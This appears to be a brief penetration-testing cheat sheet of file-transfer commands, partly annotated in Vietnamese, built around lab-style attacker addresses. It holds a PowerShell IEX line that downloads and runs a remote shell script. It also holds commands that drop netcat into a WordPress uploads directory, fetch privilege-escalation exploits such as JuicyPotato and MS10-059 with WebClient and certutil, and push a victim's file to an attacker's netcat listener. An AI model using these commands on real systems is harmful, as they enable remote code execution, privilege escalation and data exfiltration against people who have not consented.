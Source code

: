 # window

``` powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"  ```


``` powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.111/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\uploads\temo.exe'); ```

```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/JuicyPotato.exe','C:\inetpub\temp\JuicyPotato.exe')

(new-object net.webclient).downloadfile('http://10.10.14.39/Churraskito_exe/MS10-059.exe', 'C:\Users\merlin\Desktop\MS10-059.exe')


```

# SMB

```
start smbserver.py

cp \\IP\tmp
```
# Curl

```
certutil -urlcache -f http://10.10.14.48:8000/ms15-051.exe ech0_privesc.exe
```

# Linux

``` wget http://filename -O finame ```

``` curl http://www.abc.com/123/def/ghi/jkl.mno -o filename ```

# Ncat

```
victim
nc -nv attacker_ip attacker_open_port < file_muon_treuyen
```

```
attack hhost

nc -lvnp open_port > file_muốn_truyền

```
